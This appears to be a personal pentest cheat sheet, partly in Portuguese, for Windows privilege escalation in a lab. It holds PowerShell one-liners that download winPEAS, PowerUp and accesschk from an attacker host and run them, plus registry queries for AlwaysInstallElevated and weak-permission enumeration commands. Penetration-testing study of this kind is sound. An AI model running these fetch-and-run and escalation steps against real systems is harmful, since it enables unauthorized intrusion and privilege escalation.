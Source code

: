 ## Winpeas

```
(new-object net.webclient).downloadfile('http://10.10.14.14/4-privilege%20escalation/winPEASx64.exe', 'c:\temp\w.exe')
./w.exe
```

## PowerUp

```
(new-object net.webclient).downloadfile('http://10.10.14.14/4-privilege%20escalation/PowerUp.ps1', 'c:\temp\p.ps1')
. ./p.ps1]
invoke-allchecks
```

## ATENTIONPOINTS

Aqui um ponto de atenção é que, caso não encontre nada na máquina, vale considerar que o serviço pelo qual entramos (geralmente web app), pode fornecer um ponto de entrada para a escalação de priilégio por meio da aplicação que está rodando no contexto system. às vezes a verificação ocorre por tentiva e erro mesmo.

Detalhe que daqui em diante, as enumerações são todas vistas nos processos automatizados. Então é bom não deixar de verificar este último ponto e um double check manual mesmo.

## AlwaysElevated

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

## Find all weak file permissions per drive.

```
(new-object net.webclient).downloadfile('http://10.10.14.17/4-privilege%20escalation/accesschk64.exe', 'c:\temp\a.exe')

.\a.exe -uwqs -accepteula Users c:\*.*
.\a.exe -uwqs -accepteula "Authenticated Users" c:\*.*

Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

Full name

```
accesschk.exe -uwqs Users c:\*.*
accesschk.exe -uws "Everyone" "C:\Program Files"
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```
